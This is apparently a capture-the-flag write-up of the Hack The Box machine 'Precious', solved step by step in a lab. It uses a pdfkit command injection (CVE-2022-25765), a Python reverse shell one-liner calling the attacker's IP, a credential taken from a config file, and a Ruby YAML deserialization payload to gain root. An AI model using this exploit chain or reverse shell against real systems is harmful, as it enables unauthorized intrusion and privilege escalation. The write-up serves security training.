



# Precious
* **POINTS**: 20
* **USER RATING**: Easy
* **OPERATING SYSTEM**: Linux
* **RATING**: 4.6

## 1. Recon
```bash
└─$ nmap -sC -sV -oA nmap/initial 10.10.11.189                                                                     
Starting Nmap 7.92 ( https://nmap.org ) at 2023-05-04 05:58 EDT
Nmap scan report for precious.htb (10.10.11.189)
Host is up (0.12s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 84:5e:13:a8:e3:1e:20:66:1d:23:55:50:f6:30:47:d2 (RSA)
|   256 a2:ef:7b:96:65:ce:41:61:c4:67:ee:4e:96:c7:c8:92 (ECDSA)
|_  256 33:05:3d:cd:7a:b7:98:45:82:39:e7:ae:3c:91:a6:58 (ED25519)
80/tcp open  http    nginx 1.18.0
| http-server-header: 
|   nginx/1.18.0
|_  nginx/1.18.0 + Phusion Passenger(R) 6.0.15
|_http-title: Convert Web Page to PDF
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### 1.1 Nmap results analysis
#
There is an active service on port 80 ! 

<p align="center">
  
</p>

The page converts the content of the input `URL` into a `PDF`.

## 2. Fetch URL
I'm trying to connect to a local `python server` to figure out what's going on.



You download the PDF that is the web page has generated.

<p align="center">
  
</p>

Analyzing the PDF, we note that the site uses `pdfkit v0.8.6` to generate it.

```bash
└─$ exiftool                                                                                                       
nmap/                                 s1xqdodg7n0bp7mjav7zjbbe4x3aywyj.pdf  
┌──(asd㉿asd)-[~/Scrivania/Precious]
└─$ exiftool s1xqdodg7n0bp7mjav7zjbbe4x3aywyj.pdf                                                                  
ExifTool Version Number         : 12.39
File Name                       : s1xqdodg7n0bp7mjav7zjbbe4x3aywyj.pdf
Directory                       : .
File Size                       : 17 KiB
File Modification Date/Time     : 2023:05:04 05:08:48-04:00
File Access Date/Time           : 2023:05:04 05:09:01-04:00
File Inode Change Date/Time     : 2023:05:04 05:09:00-04:00
File Permissions                : -rw-r--r--
File Type                       : PDF
File Type Extension             : pdf
MIME Type                       : application/pdf
PDF Version                     : 1.4
Linearized                      : No
Page Count                      : 1
Creator                         : Generated by pdfkit v0.8.6
```

Googling `pdfkit v0.8.6 CVE`, I found an [article](https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795) dealing with `CVE-2022-25765`.

### 2.1 PoC of CVE-2022-25765
#
In the article he mentions the possibility of using the `name` parameter according to the following format:

    http://10.10.XX.XX:8000?name=%20`<command>`

So I tried with `id` and it worked



And the PDF you download proves it.

<p align="center">
  
</p>

### 2.2 Reverse Shell
#
Now I use https://www.revshells.com/ to generate a reverse shell with the following command:

    python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("10.10.XX.XX",9001));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("sh")'

<p align="center">
  
</p>

But we have a problem, because the flag is in the home directory of user `henry`, which we (`ruby`) cannot access.

```bash
$ find / -name "user.txt" 2>/dev/null
find / -name "user.txt" 2>/dev/null
/home/henry/user.txt
$ cat /home/henry/user.txt
cat /home/henry/user.txt
cat: /home/henry/user.txt: Permission denied
```

### 2.3 Ruby to Henry
#
In the `ruby` home directory there are various files and searching among them, in particular in `./bundle` I found a `config` file which contains the `SSH` password for `henry`.

```bash
$ ls -al
ls -al
total 28
drwxr-xr-x 4 ruby ruby 4096 May  4 04:06 .
drwxr-xr-x 4 root root 4096 Oct 26  2022 ..
lrwxrwxrwx 1 root root    9 Oct 26  2022 .bash_history -> /dev/null
-rw-r--r-- 1 ruby ruby  220 Mar 27  2022 .bash_logout
-rw-r--r-- 1 ruby ruby 3526 Mar 27  2022 .bashrc
dr-xr-xr-x 2 root ruby 4096 Oct 26  2022 .bundle
drwxr-xr-x 3 ruby ruby 4096 May  4 04:06 .cache
-rw-r--r-- 1 ruby ruby  807 Mar 27  2022 .profile
$ ls -al .bundle
ls -al .bundle
total 12
dr-xr-xr-x 2 root ruby 4096 Oct 26  2022 .
drwxr-xr-x 4 ruby ruby 4096 May  4 04:06 ..
-r-xr-xr-x 1 root ruby   62 Sep 26  2022 config
$ cat .bundle/config
cat .bundle/config
---
BUNDLE_HTTPS://RUBYGEMS__ORG/: "henry:Q3c1AqGHtoI0aXAYFH"
```

I connect and I have the flag.

```bash
└─$ ssh henry@10.10.11.189
The authenticity of host '10.10.11.189 (10.10.11.189)' can't be established.
ED25519 key fingerprint is SHA256:1WpIxI8qwKmYSRdGtCjweUByFzcn0MSpKgv+AwWRLkU.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.189' (ED25519) to the list of known hosts.
henry@10.10.11.189's password: 
Linux precious 5.10.0-19-amd64 #1 SMP Debian 5.10.149-2 (2022-10-21) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
henry@precious:~$ ls
ruby  user.txt
henry@precious:~$ cat user.txt
c8c36e2117ad14510298356a1163594d
```

## 3. Henry to Root

```bash
henry@precious:~$ sudo -l
Matching Defaults entries for henry on precious:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User henry may run the following commands on precious:
    (root) NOPASSWD: /usr/bin/ruby /opt/update_dependencies.rb
```

Then I analyze the contents of that file.

```bash
henry@precious:~$ cat /opt/update_dependencies.rb
# Compare installed dependencies with those specified in "dependencies.yml"
require "yaml"
require 'rubygems'

# TODO: update versions automatically
def update_gems()
end

def list_from_file
    YAML.load(File.read("dependencies.yml"))
end

def list_local_gems
    Gem::Specification.sort_by{ |g| [g.name.downcase, g.version] }.map{|g| [g.name, g.version.to_s]}
end

gems_file = list_from_file
gems_local = list_local_gems

gems_file.each do |file_name, file_version|
    gems_local.each do |local_name, local_version|
        if(file_name == local_name)
            if(file_version != local_version)
                puts "Installed version differs from the one specified in file: " + local_name
            else
                puts "Installed version is equals to the one specified in file: " + local_name
            end
        end
    end
end
```

The analysis shows the use of `YAML.load` which, by searching on Google, turns out to be vulnerable to the `Deserialization Attack` (like `pickle` in python for example). So, googling, I found a [repo](https://swisskyrepo.github.io/PayloadsAllTheThingsWeb/Insecure%20Deserialization/YAML/#pyyaml) reporting a Ruby exploit that I used to create the `dependencies.yml` file. 

```bash
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: "id"
         method_id: :resolve
```

By running the command `sudo /usr/bin/ruby /opt/update_dependencies.rb` we can verify that it works.

```bash
henry@precious:~$ sudo /usr/bin/ruby /opt/update_dependencies.rb
sh: 1: reading: not found
uid=0(root) gid=0(root) groups=0(root)
Traceback (most recent call last):
        33: from /opt/update_dependencies.rb:17:in `<main>'
        32: from /opt/update_dependencies.rb:10:in `list_from_file'
        31: from /usr/lib/ruby/2.7.0/psych.rb:279:in `load'
        30: from /usr/lib/ruby/2.7.0/psych/nodes/node.rb:50:in `to_ruby'
        29: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:32:in `accept'
        28: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:6:in `accept'
        27: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:16:in `visit'
        26: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:313:in `visit_Psych_Nodes_Document'
        25: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:32:in `accept'
        24: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:6:in `accept'
        23: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:16:in `visit'
        22: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:141:in `visit_Psych_Nodes_Sequence'
        21: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:332:in `register_empty'
        20: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:332:in `each'
        19: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:332:in `block in register_empty'
        18: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:32:in `accept'
        17: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:6:in `accept'
        16: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:16:in `visit'
        15: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:208:in `visit_Psych_Nodes_Mapping'
        14: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:394:in `revive'
        13: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:402:in `init_with'
        12: from /usr/lib/ruby/vendor_ruby/rubygems/requirement.rb:218:in `init_with'
        11: from /usr/lib/ruby/vendor_ruby/rubygems/requirement.rb:214:in `yaml_initialize'
        10: from /usr/lib/ruby/vendor_ruby/rubygems/requirement.rb:299:in `fix_syck_default_key_in_requirements'
         9: from /usr/lib/ruby/vendor_ruby/rubygems/package/tar_reader.rb:59:in `each'
         8: from /usr/lib/ruby/vendor_ruby/rubygems/package/tar_header.rb:101:in `from'
         7: from /usr/lib/ruby/2.7.0/net/protocol.rb:152:in `read'
         6: from /usr/lib/ruby/2.7.0/net/protocol.rb:319:in `LOG'
         5: from /usr/lib/ruby/2.7.0/net/protocol.rb:464:in `<<'
         4: from /usr/lib/ruby/2.7.0/net/protocol.rb:458:in `write'
         3: from /usr/lib/ruby/vendor_ruby/rubygems/request_set.rb:388:in `resolve'
         2: from /usr/lib/ruby/2.7.0/net/protocol.rb:464:in `<<'
         1: from /usr/lib/ruby/2.7.0/net/protocol.rb:458:in `write'
/usr/lib/ruby/2.7.0/net/protocol.rb:458:in `system': no implicit conversion of nil into String (TypeError)
```

Now I modify the `git_set` field in the `dependencies.yml` file with the command `chmod +s /bin/bash` to set the SUID bit.

```bash
henry@precious:~$ ls -al /bin/bash
-rwsr-sr-x 1 root root 1234376 Mar 27  2022 /bin/bash
```

Now I can run the command `/bin/bash -p` and get the root flag.

```bash
henry@precious:~$ /bin/bash -p
bash-5.1# id
uid=1000(henry) gid=1000(henry) euid=0(root) egid=0(root) groups=0(root),1000(henry)
bash-5.1# cd /root/
bash-5.1# ls
root.txt
bash-5.1# cat root.txt
aff216d5ce3cb390eb21ba2a3d415730
```